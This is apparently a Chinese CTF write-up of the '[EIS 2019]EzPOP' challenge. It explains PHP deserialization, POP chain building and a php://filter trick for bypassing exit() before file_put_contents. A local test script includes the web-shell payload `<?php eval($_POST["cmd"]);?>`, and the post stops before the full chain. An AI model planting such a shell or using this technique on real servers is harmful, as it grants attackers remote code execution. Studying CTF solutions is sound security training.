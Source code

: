 # 原创
：  [EIS 2019]EzPOP

# [EIS 2019]EzPOP

#### [EIS 2019]EzPOP

## 考点

> 
反序列化、POP链构造、绕过exit()


## 思路

> 
题目提示的很明显，需要构造一个POP链，能利用的魔法函数只有 A::__destruct()，可能可以利用的敏感函数：B 类 set() 中的 file_put_contents()。先分析一下 file_put_contents() 函数是否满足利用条件：


```
$data = "&lt;?php\n//" . sprintf('%012d', $expire) . "\n exit();?&gt;\n" . $data;
$result = file_put_contents($filename, $data);

```

> 
在 exit() 代码后面拼接 $data 数据，然后写入文件。这样就会导致我们通过$data写入的shll都不会被执行。<br/> exit()函数可以利用base64_decode以及php://filter可以绕过<br/> [具体用法参考P牛的文章](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210519092356829.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210519092407350.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210519092419188.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
接下来开始寻找 POP 链；<br/> 接下来回溯看$filename和``$data`是怎么来的：<br/> $filename：先调用getCacheKey($name)，改方法是执行连接字符串的作用：$this-&gt;option[‘prefix’].$name构成filename；<br/> $data：来自于 $this-&gt;serialize($value)，所以再关注$value是怎么来的；$value是A::getForStorage()的返回值：json_encode([A::cleanContents(A::cache), A::complete]);；<br/> A::cleanContents(A::cache)实现了一个过滤的功能，A::complete更容易控制，直接写为shellcode


> 
尝试本地运行cleanContents()：


```
&lt;?php
function cleanContents(array $contents) {
    $cachedProperties = array_flip([
        'path', 'dirname', 'basename', 'extension', 'filename',
        'size', 'mimetype', 'visibility', 'timestamp', 'type',
    ]);

    foreach ($contents as $path =&gt; $object) {
        if (is_array($object)) {
            $contents[$path] = array_intersect_key($object, $cachedProperties);
        }
    }

    return $contents;
}
$a = array();
$b = '&lt;?php eval($_POST["cmd"]);?&gt;';
echo json_encode([clearstatcache($a), $b]);

?&gt;
```